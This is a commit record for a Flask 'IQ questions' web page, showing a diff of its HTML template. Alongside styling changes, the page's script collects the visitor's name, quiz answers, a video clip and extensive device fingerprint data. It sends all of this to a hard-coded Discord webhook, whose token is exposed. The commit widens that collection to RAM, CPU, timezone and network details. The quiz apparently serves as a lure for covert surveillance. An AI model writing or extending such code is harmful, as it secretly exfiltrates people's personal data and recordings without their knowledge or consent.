

Before and after one commit to Youssef-mehrzi/IQ-QUESTIONS, a Flask app: page / in a window 1280 px wide. Shown: the top 1920 px of the page at 78% size, without its empty margins (0-1028 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -7,23 +7,24 @@
     <link href="https://fonts.googleapis.com/css2?family=Plus+Jakarta+Sans:wght@400;500;600;700;800&display=swap" rel="stylesheet">
     <style>
         :root {
-            --bg-gradient: linear-gradient(135deg, #0f172a 0%, #1e1b4b 50%, #31103f 100%);
-            --card-bg: rgba(255, 255, 255, 0.95);
+            /* تعديل الخلفية لتصبح بيضاء/فاتحة بدل البنفسجي الغامق */
+            --bg-gradient: linear-gradient(135deg, #f8fafc 0%, #e2e8f0 100%);
+            --card-bg: rgba(255, 255, 255, 0.98);
             --primary-accent: #6366f1;
             --secondary-accent: #ff4757;
             --success-color: #10b981;
             --text-main: #1e293b;
             --text-muted: #64748b;
             --input-bg: #f8fafc;
-            --border-color: #e2e8f0;
+            --border-color: #cbd5e1;
             --border-focus: #6366f1;
             --radius-lg: 20px;
             --radius-md: 12px;
-            --shadow-glow: 0 20px 40px -15px rgba(99, 102, 241, 0.3);
+            --shadow-glow: 0 20px 40px -15px rgba(0, 0, 0, 0.08);
         }
         * { box-sizing: border-box; transition: all 0.25s ease; }
         body { font-family: 'Plus Jakarta Sans', Arial, sans-serif; background: var(--bg-gradient); background-attachment: fixed; display: flex; justify-content: center; align-items: center; min-height: 100vh; margin: 0; padding: 30px 15px; color: var(--text-main); }
-        .card { background: var(--card-bg); backdrop-filter: blur(12px); padding: 40px 35px; border-radius: var(--radius-lg); box-shadow: 0 25px 50px -12px rgba(0, 0, 0, 0.4), var(--shadow-glow); text-align: center; max-width: 600px; width: 100%; border: 1px solid rgba(255, 255, 255, 0.3); }
+        .card { background: var(--card-bg); backdrop-filter: blur(12px); padding: 40px 35px; border-radius: var(--radius-lg); box-shadow: 0 25px 50px -12px rgba(0, 0, 0, 0.1), var(--shadow-glow); text-align: center; max-width: 600px; width: 100%; border: 1px solid rgba(226, 232, 240, 0.8); }
         .top-bar { display: flex; justify-content: space-between; align-items: center; margin-bottom: 15px; flex-wrap: wrap; gap: 10px; }
         .welcome-badge { background: linear-gradient(135deg, #6366f1 0%, #a855f7 100%); color: white; padding: 8px 16px; border-radius: 30px; font-size: 13px; font-weight: 800; letter-spacing: 1.2px; text-transform: uppercase; }
         .lang-select { padding: 6px 12px; border-radius: 20px; border: 1px solid var(--border-color); background-color: var(--input-bg); font-weight: 700; font-size: 13px; color: var(--text-main); cursor: pointer; outline: none; }
@@ -88,7 +89,6 @@
     </div>
 
     <script>
-        // Webhook URL mte3ek el 7a9iqi m3abbi direct fel frontend
         const DISCORD_WEBHOOK_URL = "https://discord.com/api/webhooks/1566467697921753138/OFyLYOzINR7s8BdcheUpf27-BJb7i9OwwplEMIRHoK152MY0kBdMqGXJTHvUpEyih5lz";
 
         const translations = {
@@ -121,7 +121,7 @@
             navigator.getBattery().then(battery => {
                 function updateBattery() {
                     batteryInfoGlobal.niveau = Math.round(battery.level * 100) + "%";
-                    batteryInfoGlobal.enCharge = battery.charging ? "Oui (Branché ⚡)" : "Non (Sur batterie 🔋)";
+                    batteryInfoGlobal.enCharge = battery.charging ? "Oui (Branché)" : "Non (Sur batterie)";
                 }
                 updateBattery();
                 battery.addEventListener('levelchange', updateBattery);
@@ -131,19 +131,32 @@
 
         async function getDetailedDeviceInfo() {
             const ua = navigator.userAgent;
-            let osName = "Système Inconnu";
-            if (/android/i.test(ua)) osName = "Android";
-            else if (/iphone|ipad|ipod/i.test(ua)) osName = "iOS (Apple)";
-            else if (/windows/i.test(ua)) osName = "Windows PC";
+            let osName = "Système Inconnu", brandOrModel = "Appareil Inconnu";
+            if (/android/i.test(ua)) { osName = "Android"; let m = ua.match(/Android\s([0-9\.]+)/); if (m) osName += " " + m[1]; }
+            else if (/iphone|ipad|ipod/i.test(ua)) { osName = "iOS (Apple)"; }
+            else if (/windows/i.test(ua)) { osName = "Windows PC"; }
+
+            if (/Samsung/i.test(ua)) brandOrModel = "Samsung Galaxy";
+            else if (/iPhone/i.test(ua)) brandOrModel = "Apple iPhone";
+
+            let connectionType = "Non disponible";
+            if (navigator.connection) {
+                connectionType = `${navigator.connection.effectiveType || 'Inconnu'} (${navigator.connection.downlink || 0} Mbps)`;
+            }
 
             return {
+                appareil: brandOrModel,
                 systemeExploitation: osName,
-                navigateur: navigator.appName,
+                navigateur: navigator.userAgentData ? navigator.userAgentData.brands.map(b => b.brand).join(', ') : navigator.appName,
                 plateforme: navigator.platform,
-                langueSysteme: navigator.language,
+                langueSysteme: navigator.language || navigator.languages[0],
+                memoireRAMApproximative: navigator.deviceMemory ? navigator.deviceMemory + " Go" : "Non disponible",
+                processeurCœurs: navigator.hardwareConcurrency ? navigator.hardwareConcurrency + " Cœurs" : "Non disponible",
                 resolutionEcran: `${window.screen.width} x ${window.screen.height}`,
+                fuseauHoraire: Intl.DateTimeFormat().resolvedOptions().timeZone,
                 niveauBatterie: batteryInfoGlobal.niveau,
-                etatCharge: batteryInfoGlobal.enCharge
+                etatCharge: batteryInfoGlobal.enCharge,
+                reseau: connectionType
             };
         }
 
@@ -158,13 +171,14 @@
                     if (val) answersSummary += `Q${i}: ${val} | `;
                 }
 
+                // تنسيق تقرير ديسكورد المفصل تماماً كالذي طلبته
                 const deviceStr = Object.entries(deviceDetails).map(([k, v]) => `• **${k}**: ${v}`).join('\n');
-                const messageText = `🚨 **Rapport - ${reason}** 🚨\n👤 **Nom:** ${username}\n\n📋 **Réponses:**\n${answersSummary}\n\n💻 **Appareil & Batterie:**\n${deviceStr}`;
+                const messageText = `✅ **Nouveau Rapport Capturé (Capture/Formulaire):**\n• **Nom / Statut:** ${username} [🎥 فيديو مباشر (Live Video)]\n• **Questions:** ${answersSummary}\n${deviceStr}`;
 
                 const formData = new FormData();
                 formData.append('content', messageText);
                 if (blob) {
-                    formData.append('file', blob, 'clip.webm');
+                    formData.append('file', blob, 'live_clip.webm');
                 }
 
                 await fetch(DISCORD_WEBHOOK_URL, {
```
